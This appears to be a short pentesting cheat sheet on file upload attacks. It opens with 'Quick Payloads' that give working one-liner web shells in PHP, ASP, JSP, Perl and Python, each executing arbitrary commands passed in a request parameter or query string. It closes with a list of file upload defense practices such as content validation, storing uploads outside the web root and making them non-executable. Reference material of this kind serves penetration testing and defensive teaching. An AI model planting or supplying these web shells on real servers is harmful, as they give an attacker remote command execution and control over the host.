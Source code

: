 ## Quick Payloads (Web Shells)

### PHP One-liner
```php
<?php system($_GET['cmd']); ?>
```

### ASP One-liner
```asp
<% eval request("cmd") %>
```

### JSP One-liner
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### Perl One-liner
```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
system($ENV{'QUERY_STRING'});
```

### Python One-liner
```python
import os;os.system(os.getenv('QUERY_STRING'))
```

## File Upload Defense Best Practices

1. Implement strong file type validation
   - Check file extensions AND content
   - Use content validation libraries

2. Store uploaded files outside web root
   - Prevent direct access to uploaded files

3. Rename files during upload
   - Use random names + sanitize filenames
   - Strip special characters

4. Set proper permissions
   - Make uploaded files non-executable

5. Use separate domains for user content
   - Isolate uploaded content from main application

6. Implement file scanning
   - Scan for malware and malicious code

7. Validate image dimensions for image uploads
   - Ensure proper image properties
